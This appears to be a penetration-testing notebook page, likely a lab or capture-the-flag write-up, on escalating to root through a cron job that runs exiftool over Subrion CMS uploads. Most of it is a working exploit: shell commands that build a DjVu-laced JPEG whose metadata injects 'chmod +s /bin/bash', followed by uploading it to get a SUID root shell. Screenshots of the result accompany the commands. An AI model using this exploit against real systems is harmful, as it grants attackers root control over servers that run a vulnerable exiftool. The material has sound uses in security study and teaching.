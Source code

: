 # Exiftool Priv Esc

{% embed url="https://bing0o.github.io/posts/exfiltrated/" %}

```
* *	* * *	root	bash /opt/image-exif.sh
cat /opt/image-exif.sh
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"

```

The script extracts exif data from all the jpegs in the upload directory of subrion. If we can inject some metadata that allow us to remotely execute commands, we could execute commands as root since the script is runnign as root.&#x20;

Execute the following commands to generate exif data that makes bash runable by normal users as root.&#x20;

```
sudo apt-get install -y djvulibre-bin
wget -qO sample.jpg placekitten.com/200
file sample.jpg
printf 'P1 1 1 1' > input.pbm
cjb2 input.pbm mask.djvu
djvumake exploit.djvu Sjbz=mask.djvu
echo -e '(metadata (copyright "\\\n" . `chmod +s /bin/bash` #"))' > input.txt
djvumake exploit.djvu Sjbz=mask.djvu ANTa=input.txt
exiftool '-GeoTiffAsciiParams<=exploit.djvu' sample.jpg
perl -0777 -pe 's/\x87\xb1/\xc5\x1b/g' < sample.jpg > exploit.jpg
```

[![](https://grumpygeekwrites.files.wordpress.com/2021/09/2021-09-07\_06-54.png?w=1024)](https://grumpygeekwrites.files.wordpress.com/2021/09/2021-09-07\_06-54.png)

We upload this malicious **exploit.jpg** to the **Subrion CMS** again and after like 10-15 seconds our /bin/bash had SUID bit.

[![](https://grumpygeekwrites.files.wordpress.com/2021/09/2021-09-07\_06-02.png?w=951)](https://grumpygeekwrites.files.wordpress.com/2021/09/2021-09-07\_06-02.png)[![](https://grumpygeekwrites.files.wordpress.com/2021/09/2021-09-07\_06-05.png?w=992)](https://grumpygeekwrites.files.wordpress.com/2021/09/2021-09-07\_06-05.png)
